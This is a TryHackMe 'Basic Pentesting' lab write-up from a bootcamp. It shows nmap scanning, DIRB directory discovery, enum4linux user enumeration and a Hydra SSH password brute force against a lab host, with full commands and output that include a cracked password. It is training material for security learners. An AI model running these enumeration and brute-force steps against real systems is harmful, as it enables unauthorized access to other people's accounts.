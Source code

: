 ```yaml
---
published: false
---
```


## IoC Skills Bootcamp Week 1 - Basic Pentesting

We kick things off with the [Basic Pentesting](https://tryhackme.com/room/basicpentestingjt) room on tryhackme to get some experience with brute forcing, hash cracking, service enumeration and Linux enumeration.

After setting up a Kali instance on VMware and connecting to the tryhackme network through OpenVPN we are ready to go 👍.

We begin by running nmap to discover which ports are currently open. No switches were required as the standard scan gave us the information we were looking for. 

```
$ nmap 10.10.139.208 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-06 11:13 EST
Nmap scan report for 10.10.139.208
Host is up (0.031s latency).
Not shown: 994 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
8009/tcp open  ajp13
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 0.65 seconds
```
We can see from the nmap scan that port 80 http is open, this might mean there is a website that we are able to look at. 

![Website Snip 1](/docs/assets/basicPentestingSnip1.PNG)

We find out there is a web page being hosted on the target machine. Not much to go from but let's use the Web Developer Tools to check if there is any other information in the raw html that we can gather.

![Website Snip 2](/docs/assets/basicPentestingSnip2.PNG)

There is a comment that implies there are other sections of the website. We can use a web content enumeration tool such as DIRB or DirBuster to scan the site for any hidden folders or files.

```
$ dirb http://10.10.139.208

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Sun Feb  6 13:36:42 2022
URL_BASE: http://10.10.139.208/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.10.139.208/ ----
==> DIRECTORY: http://10.10.139.208/development/                                      
+ http://10.10.139.208/index.html (CODE:200|SIZE:158)                                 
+ http://10.10.139.208/server-status (CODE:403|SIZE:301)                              
                                                                                      
---- Entering directory: http://10.10.139.208/development/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                               
-----------------
END_TIME: Sun Feb  6 13:40:40 2022
DOWNLOADED: 4612 - FOUND: 2
```

DIRB was able to find a listable directory named development. Let's check its contents in our web browser. 

![Website Snip 3](/docs/assets/basicPentestingSnip3.PNG)

There are two text notes that we can view. 

![Website Snip 4](/docs/assets/basicPentestingSnip4.PNG)

The first contains some information regarding the server and version number that they are running which may be useful to us. We can also note that Server Message Block has been set up and that there are two users referred to as "K" and "J".

![Website Snip 5](/docs/assets/basicPentestingSnip5.PNG)

The second note talks about "J" using weak password credentials as their hash was able to be cracked "really easily". The mention of /etc/shadow means it is a linux box so we can try enum4linux to enumerate the system for more information.

```
$ enum4linux 10.10.139.208

 ======================================================================== 
|    Users on 10.10.139.208 via RID cycling (RIDS: 500-550,1000-1050)    |
 ======================================================================== 

[I] Found new SID: S-1-22-1
[+] Enumerating users using SID S-1-22-1 and logon username '', password ''
S-1-22-1-1000 Unix User\kay (Local User)
S-1-22-1-1001 Unix User\jan (Local User)
```
The scan found two users, Jay and Kay, which fits in with the intials we saw earlier. We know that Jay has weak password credentials so we will try to brute force his password with the use of Hydra. We will try one of the default password lists (rockyou).

```
hydra -l jan -P /usr/share/wordlists/rockyou.txt.gz 10.10.139.208  ssh

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-02-06 14:44:57
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.10.139.208:22/
[STATUS] 183.00 tries/min, 183 tries in 00:01h, 14344223 to do in 1306:24h, 16 active
[STATUS] 91.00 tries/min, 273 tries in 00:03h, 14344143 to do in 2627:08h, 16 active
[STATUS] 79.71 tries/min, 558 tries in 00:07h, 14343874 to do in 2999:02h, 16 active
[22][ssh] host: 10.10.139.208   login: jan   password: armando
1 of 1 target successfully completed, 1 valid password found
```
